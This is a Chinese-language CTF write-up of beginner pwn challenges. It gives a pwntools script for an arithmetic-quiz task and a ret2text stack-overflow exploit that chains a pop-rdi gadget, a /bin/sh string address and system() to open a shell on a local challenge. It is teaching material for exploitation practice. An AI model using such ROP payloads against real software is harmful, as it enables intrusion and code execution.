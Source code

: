 ## baby_calculator

这个题的目的就是锻炼一下大伙用pwntools写脚本的能力，想当初我在去年接触pwn的时候其实被pwntools这个东西折磨纠结了一段时间，所以我写这个题的目的就是用一个最普遍而又稍微有一点点创新的角度去让大伙写出来这个，这个就是最基础的几个语句的运用，写出来就算是过了这一关了

逻辑实际上很简单，50%，对了就是对了，错了只是+1而已，但是+1似乎太容易看出来并且手敲了，下次要在十位数上动手脚，+10.

exp：

```py
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 45201)

for i in range(100):
    sh.recvuntil(b'The first:')
    left = int(sh.recvuntil(b'\n'))
    sh.recvuntil(b'The second:')
    right = int(sh.recvuntil(b'\n'))
    sh.recvuntil(b'=')
    res = int(sh.recvuntil(b'\n'))
    if left + right == res:
        sh.sendline(b'BlackBird')
    else:
        sh.sendline(b'WingS')
sh.interactive()
```

实际上没有exp写的好与坏这一说，自己能写出来能用明白语句就是最终目的。

## ret2text_32/64

最基本的栈溢出，只是考察32、64位传参规则，在这里有一点小区分而已

知识点在这里不过多赘述，放exp。

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34721)

system_addr = 0x4012B7
binsh_addr = 0x404050
pop_rdi = 0x4011be

sh.sendline(b'1024')
sleep(2)
pad = b'a' * 0x58 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)

sh.interactive()
```
